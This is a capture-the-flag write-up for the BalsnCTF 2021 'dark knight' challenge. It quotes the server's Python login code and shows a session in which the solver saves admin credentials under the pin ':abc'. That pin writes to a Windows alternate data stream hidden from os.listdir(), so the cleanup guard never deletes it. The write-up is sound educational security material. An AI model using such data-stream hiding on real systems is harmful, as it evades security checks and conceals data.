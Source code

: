 ```yaml
---
title: BalsnCTF 2021 - dark knight
tag:
  - CTF
  - Writeup
  - Misc
---
```


# BalsnCTF 2021 - dark knight


# Challenge Description

```markdown
Category: Misc
Author: 424275

Solves: 12 / 278

once upon the ime, there was a dark knight who kills every admin he met...

nc darkknight.balsnctf.com 8084
```
<!--more-->

# Inspection

From the provided challenge file, we know that our goal is to login with the username 'admin', then we will get the flag after entering the passcode 'plz'. 

```python
if username != None and password != None:
  print(f"hello, {username}.")
  if username == "admin":
      while True:
          x = input("do you want the flag? (y/n): ")
          if x == "n":
              print("OK, bye~")
              return
          elif x == "y":
              break
          else:
              print("invalid input.")
      while True:
          x = input("beg me: ")
          if x == "plz":
              print("ok, here is your flag: BALSN{flag is here ...}")
              break
```

There are two way to login, fast login and normal login. The normal login seems safe so we will check the fast login. We can see that there is a fast login that takes a pin code and retrieve the username and password from the file with the same name. 

```python
def fast_login():
    while True:
        pin = input("enter a pin code > ")
#... some checks on pin code
#...
				if "\\" in pin or "/" in pin or ".." in pin:
            print("what do you want to do?(¬_¬)")
            continue
#... some more checks on pin code
#...
    try:
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                print("unknown error happened??")
                return None, None
            return data[0], data[1]
    except FileNotFoundError:
        print("this pin code is not registered.")
        return None, None
```

There is also a password manager that allow us to write our account into a file so we can login with those later. However, the server will check for all file in the directory, and delete all file that stores an admin account. 

```python
def safety_guard():
    print("safety guard activated. will delete all unsafe credentials hahaha...")
    delete_file = []
    for pin in os.listdir("."):
        safe = True
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                safe = False
            elif len(data[0]) == 0 or len(data[1]) == 0:
                safe = False
            elif data[0].isalnum() == False or data[1].isalnum() == False:
                safe = False
            elif data[0] == "admin":
                safe = False

        if safe == False:
            os.remove(pin)
            delete_file.append(pin)
    
    print(f"finished. delete {len(delete_file)} unsafe credentials: {delete_file}")
```

# Solution

The idea will be to find a place to write the admin account without being listed by os.listdir() so that the file wouldn't be deleted. However, the black list on the file name also forced us to stay in the current directory, that means we need to find other ways to bypass the safe guard. I first tried to write directly to drive such as 'C:' but that leads to nothing, but we I was trying that, I notice some strange behaviors with the colon symbol ':'. After randomly trying different filenames, I got the flag out of pure chance

```
1. passord manager
2. login
3. exit
what do you want to do? > 1
use a short pin code to achieve fast login!!
enter a pin code > :abc
enter username > admin
enter password > 123
saved!!
1. passord manager
2. login
3. exit
what do you want to do? > 2
safety guard activated. will delete all unsafe credentials hahaha...
finished. delete 0 unsafe credentials: []
1. fast login
2. normal login
3. exit
enter login type > 1
enter a pin code > :abc
hello, admin.
do you want the flag? (y/n): y
beg me: plz
ok, here is your flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

``` plaintext
flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

I later learned that I'm writing into an alternate data stream (ads), which isn't a file, so os.listdir() couldn't find it. It seems like that windows ads have been abused by many to write hidden data into the system, and have suffer bad reputations because of that.
